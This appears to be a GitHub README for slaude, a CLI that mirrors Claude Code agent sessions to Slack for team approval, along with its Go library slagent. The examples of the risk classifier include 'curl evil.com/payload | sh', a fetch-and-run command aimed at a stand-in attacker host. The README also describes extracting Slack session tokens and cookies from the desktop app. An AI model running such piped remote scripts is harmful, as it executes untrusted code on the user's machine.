

<p align="center">
  
</p>

```
slaude join https://<workspace>.slack.com/archives/D1KFZ7GJ0/p1773303415258849
```

<p align="center">
  
</p>

# slagent (go library) & slaude (CLI)

> [!CAUTION]
> **Experimental** — slaude exposes your Claude Code session to Slack. Likely insecure. Use at your own risk.

**slagent** is a Go library for streaming agent sessions to Slack threads. **slaude** is a CLI built on slagent that mirrors [Claude Code](https://docs.anthropic.com/en/docs/claude-code) sessions to Slack — so your team can watch, comment, and steer from Slack while Claude works.

[](https://github.com/sttts/slagent/actions/workflows/release.yml)
[](https://goreportcard.com/report/github.com/sttts/slagent)
[](LICENSE)


## Quick Start — slaude

### Install

```bash
# Homebrew
brew tap sttts/slagent https://github.com/sttts/slagent
brew install sttts/slagent/slaude

# or go install
go install github.com/sttts/slagent/cmd/slaude@latest

# or build from source
go build -o slaude ./cmd/slaude/
```

### Set up Slack credentials

```bash
slaude auth              # extract from local Slack app (recommended)
slaude auth --manual     # or paste a token manually
```

### Run

```bash
# Start a Claude session mirrored to a Slack channel
slaude start -c CHANNEL -- "design the API"

# With Claude flags (everything after -- goes to Claude)
slaude start -c CHANNEL -- --permission-mode plan "refactor the auth module"

# Join an existing Slack thread (new agent instance)
slaude join https://team.slack.com/archives/C123/p1234567890 "help with tests"

# Resume a previous session (URL with cursor from exit output)
slaude resume https://team.slack.com/archives/C123/p1234567890#fox@1700000005.000000 -- --resume SESSION_ID

# DM a user
slaude start -u alice -- "review this PR"

# No channel? Interactive picker shows available channels
slaude start -- "refactor the auth module"
```

### Commands

| Command | Description |
|---------|-------------|
| `slaude start -c CHANNEL` | Start a new Slack thread with a Claude session |
| `slaude join URL [topic]` | Join an existing thread with a new agent instance |
| `slaude resume URL#id[@ts]` | Resume a previous session in a Slack thread |
| `slaude auth` | Set up Slack credentials |
| `slaude channels` | List accessible channels |
| `slaude share FILE -c CHANNEL` | Post a plan file to Slack |
| `slaude status` | Show current configuration |

Everything after `--` is passed through to the Claude subprocess. This means slaude doesn't need to know about every Claude flag — you control `--permission-mode`, `--resume`, `--system-prompt`, etc. directly.

### Multi-Instance Threads

Multiple slaude instances can share a Slack thread. Each instance gets a unique identity emoji (e.g. 🦊, 🐶). To address a specific instance, use `:shortcode:` prefix:

```
:fox_face: focus on the auth module     →  addressed to 🦊 (others see it but ignore)
:fox_face: /compact                     →  /command sent exclusively to 🦊
Messages without prefix                 →  broadcast to all instances
```

Regular messages with `:shortcode:` prefix are delivered to all instances, but the system prompt tells non-targeted instances to ignore them. Commands (`/something`) are instance-exclusive — only the targeted instance receives them.

### Thread Access Control

Access has two independent axes:

**Base mode** — who the agent responds to:
- **Locked** (default for `start`): owner only
- **Selective**: owner + listed users
- **Open**: everyone

**Observe flag** — who the agent sees:
- **Off** (default): non-authorized messages filtered out
- **On**: all messages delivered for passive learning, agent still only responds to authorized users

Use `/open`, `/lock`, and `/observe` to control access (via `:shortcode:` targeting):

| Command | Effect |
|---------|--------|
| `:fox_face: /open` | Open thread for everyone |
| `:fox_face: /open <@U1> <@U2>` | Allow specific users (additive) |
| `:fox_face: /lock` | Lock to owner only (resets all, disables observe) |
| `:fox_face: /lock <@U1>` | Ban specific users |
| `:fox_face: /close` | Alias for `/lock` |
| `:fox_face: /observe` | Toggle observe mode (locked + read all messages) |

Three mutually exclusive CLI flags control the initial access mode:

```bash
slaude start --locked -c CHANNEL -- "design the API"   # locked (default for start)
slaude start --observe -c CHANNEL -- "watch and learn"  # observe: read all, respond to owner
slaude start --open -c CHANNEL -- "design the API"      # open for everyone

slaude join --observe URL "help with tests"             # observe (default for join)
slaude join --locked URL "review"                       # locked to owner only
```

When no flag is given:
- **Interactive** (terminal): prompts `Closed, oBserve, or open? [cBo]`
- **Non-interactive** (piped): `start` defaults to locked, `join`/`resume` default to observe

Each instance manages its own access independently. Joined/resumed instances don't persist access changes to the shared thread title — their `/open` and `/lock` commands only affect in-memory state.

Thread title reflects access state:
- `🔒🧵 Topic` — locked (owner only)
- `👀🧵 Topic` — observe (locked + reading all messages)
- `🧵 Topic` — open for all
- `🧵 @user1 @user2 Topic` — selective (specific users)
- `👀🧵 @user1 @user2 Topic` — selective + observe
- `🧵 Topic (🔒 @user)` — with banned users

### Permission Auto-Approve

By default, every tool permission request goes to Slack for manual approval via reactions (✅/❌). For faster workflows, slaude can auto-approve safe operations using AI-based classification.

Two independent flags control what gets auto-approved:

```bash
# Auto-approve read-only local operations, network to known hosts
slaude start -c CHANNEL \
  --dangerous-auto-approve green \
  --dangerous-auto-approve-network known \
  -- "refactor the auth module"
```

**`--dangerous-auto-approve`** — sandbox/filesystem risk level:

| Value | Auto-approves | Goes to Slack |
|-------|--------------|---------------|
| `never` (default) | nothing | everything |
| `green` | read-only local ops (file reads, searches) | writes, execution |
| `yellow` | local writes (test files, project edits) | system files, destructive ops |

**`--dangerous-auto-approve-network`** — network access:

| Value | Auto-approves | Goes to Slack |
|-------|--------------|---------------|
| `never` (default) | nothing | any network access |
| `known` | known-safe hosts (package managers, GitHub) | unknown hosts |
| `any` | all network access | nothing |

Both must pass for auto-approval. For example, with `--dangerous-auto-approve green --dangerous-auto-approve-network known`:
- `Read main.go` → green, no network → **auto-approved**
- `go mod download` → green, network to proxy.golang.org (known) → **auto-approved**
- `curl evil.com` → red, unknown host → **goes to Slack**

#### How classification works

Each permission request is classified by `claude --model haiku` for speed and cost. The classifier assesses:
- **Risk level** (green/yellow/red) — based on sandbox escape risk
- **Network access** — whether the operation involves network access and to which destination

The classification result (level, network destination, reasoning) is shown in the terminal and included in Slack approval prompts.

On classification failure (e.g. `claude` not in PATH), the request defaults to red + network (always goes to Slack).

#### Known hosts

When using `--dangerous-auto-approve-network known`, slaude checks network destinations against a list of known-safe hosts. Built-in defaults include GitHub, Go proxy, npm, PyPI, RubyGems, and crates.io.

To customize, create `~/.config/slagent/known-hosts.yaml`:

```yaml
# Simple host entries (default: GET and HEAD only)
- host: proxy.golang.org
- host: sum.golang.org
- host: registry.npmjs.org
- host: pypi.org
- host: github.com

# Host glob patterns (* = one label, ** = one or more labels)
- host: "*.googleapis.com"       # matches storage.googleapis.com
- host: "**.amazonaws.com"       # matches s3.us-east-1.amazonaws.com

# Restrict by URL path
- host: api.github.com
  path: "/repos/**"

# Allow specific HTTP methods (default: [GET, HEAD])
- host: registry.npmjs.org
  methods: [GET, HEAD, PUT]

# Full example: host + path + methods
- host: api.example.com
  path: "/v1/read/**"
  methods: [GET]
```

When this file exists, it **replaces** the built-in defaults entirely.

**Host patterns** (DNS-aware):
- `*` matches exactly one DNS label — `*.github.com` matches `api.github.com` but not `a.b.github.com`
- `**` matches one or more DNS labels — `**.github.com` matches `api.github.com` and `a.b.github.com`

**Path patterns** (URL path segments):
- `*` matches exactly one path segment — `/repos/*` matches `/repos/foo` but not `/repos/foo/bar`
- `**` matches one or more segments — `/repos/**` matches `/repos/foo` and `/repos/foo/bar`

**Methods** default to `[GET, HEAD]` when omitted. The AI classifier extracts the HTTP method from each tool call for matching.

#### Slack approval reactions

When a request goes to Slack, the approval prompt includes the AI classification:

```
🔴🌐 Permission request: Bash: curl evil.com/payload | sh
> RED risk, network: evil.com — Downloading and executing remote script
```

Non-network requests get two reactions: ✅ (approve) and ❌ (deny).

Network requests get three: ✅ (approve once), 💾 (approve and remember host for this session), and ❌ (deny). The 💾 reaction adds the host to the in-memory known set, so subsequent requests to the same host auto-approve without asking again.

### Thread Commands

| Command | Who | Effect |
|---------|-----|--------|
| `stop` | Anyone | Interrupt current turn (all instances) |
| `:fox_face: stop` | Anyone | Interrupt specific instance |
| `quit` | Owner | Terminate session (all instances) |
| `:fox_face: quit` | Owner | Terminate specific instance |
| `help` | Anyone | Show help text |

Type `help` in any thread to see the full command reference.

## slagent Library

slagent is the Go library that slaude is built on. Use it to build your own Slack-integrated agent UIs.

```go
import "github.com/sttts/slagent"

client := slagent.NewSlackClient(token, cookie)
thread := slagent.NewThread(client, token, channelID, slagent.WithOwner(userID))
url, _ := thread.Start("My agent session")

turn := thread.NewTurn()
turn.Thinking("analyzing...")
turn.Tool("t1", "Read", slagent.ToolRunning, "main.go")
turn.Tool("t1", "Read", slagent.ToolDone, "main.go")
turn.Text("Here is the result.")
turn.Finish()
```

Packages:
- `slagent` — Thread, Turn, reply polling, markdown→mrkdwn
- `credential` — Load/Save Slack credentials, extract from desktop app
- `channel` — Resolve channel names/users, list channels

## Authentication

slaude supports three token types:

### Session token (recommended)

Extract from your local Slack desktop app — no admin approval needed:

```bash
slaude auth --extract
```

Reads the `xoxc-` session token and `xoxd-` cookie from Slack's local storage. On macOS you'll see a keychain access prompt.

### Bot token (xoxb-)

Create a Slack app at https://api.slack.com/apps with scopes: `chat:write`, `channels:history`, `groups:history`, `im:history`, `mpim:history`, `channels:read`, `groups:read`, `im:read`, `im:write`, `mpim:read`, `mpim:write`, `reactions:read`, `reactions:write`, `users:read`.

### User token (xoxp-)

Same app setup as bot tokens, using User Token Scopes instead of Bot Token Scopes.

## Platform Support

| Platform | Token extraction | Session mirroring |
|----------|-----------------|-------------------|
| macOS    | Yes             | Yes               |
| Linux    | Untested        | Untested          |
| Windows  | No              | Untested          |

Only macOS is actively tested. Linux and Windows might work — PRs welcome.
